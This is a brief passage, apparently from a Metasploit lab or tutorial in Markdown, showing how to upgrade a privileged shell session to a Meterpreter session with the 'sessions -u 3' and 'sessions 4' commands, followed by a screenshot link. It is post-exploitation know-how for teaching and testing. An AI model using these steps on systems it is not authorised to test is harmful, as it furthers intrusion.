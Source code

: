 - Upgrade the privileged session 3 to a `Meterpreter` session

```bash
sessions -u 3
sessions 4
```

- `SESSION 4` is a Meterpreter privileged session

![](3-metasploitassets/image-20230422164900736.png)
